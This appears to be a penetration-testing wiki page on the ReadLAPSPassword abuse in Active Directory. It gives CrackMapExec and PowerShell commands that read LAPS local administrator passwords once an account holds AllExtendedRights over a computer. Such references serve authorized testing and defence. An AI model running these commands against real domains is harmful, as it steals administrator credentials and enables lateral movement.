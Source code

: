 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `AllExtendedRights` over a target computer. The attacker can then read the LAPS password of the computer account. 

{% tabs %}
{% tab title="First Tab" %}
From UNIX-like systems, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to retrieve LAPS passwords \(this only works since v5.1.6\).

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

There are other alternative like [LAPSDumper](https://github.com/n00py/LAPSDumper) \(Python\) or [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endtab %}
{% endtabs %}

